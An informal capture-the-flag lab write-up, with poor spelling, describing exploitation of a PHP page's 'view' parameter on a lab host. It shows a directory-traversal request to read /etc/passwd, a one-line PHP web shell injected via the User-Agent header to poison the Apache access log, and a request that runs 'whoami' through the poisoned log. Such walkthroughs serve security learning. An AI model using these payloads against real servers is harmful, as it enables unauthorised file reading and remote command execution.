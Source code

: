 i was solving a lab where i find out a php file is been exicuted on a url 
```
http://mafialive.thm/test.php?view=mrrobot.txt

```
then i find aout about a lfo local file inclution where i can view other files of the system throughtdirectory swaping 
```
http://mafialive.thm/test.php?view=var/www/html/web../../../../../../../../../etc/passwd
```
and we got the passwd files

so now we can convert it to rce remote code exe
for that we need to alter the user agent 
```
<?php system($_GET[‘cmd’]);?>

So from now on whenever we access /var/log/apache2/access.log with GET parameter “cmd”, it’s value will be interpreted and we can have command execution. Let’s test this by running “whoami” command in the GET request:

GET /test.php?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log&cmd=whoami HTTP/1.1
```
